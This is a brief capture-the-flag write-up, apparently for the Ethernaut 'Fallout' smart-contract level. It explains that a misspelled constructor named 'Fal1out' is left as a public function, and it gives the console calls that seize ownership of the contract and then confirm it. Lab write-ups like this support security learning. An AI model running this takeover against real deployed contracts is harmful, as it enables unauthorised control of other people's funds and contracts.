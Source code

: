 ### Target

1. Take ownership of the contract

### Break Down & Analyze

The constructor has typo: Fal”1”out. Since the wrong spelling, it is served as a function rather than a constructor, so everyone can call it and take the ownership.

### Detailed Steps (work through the console)

```js
await contract.Fal1out() // call the wrong-spelled function to take ownership
await contract.owner() === player // check if you're the owner now
```
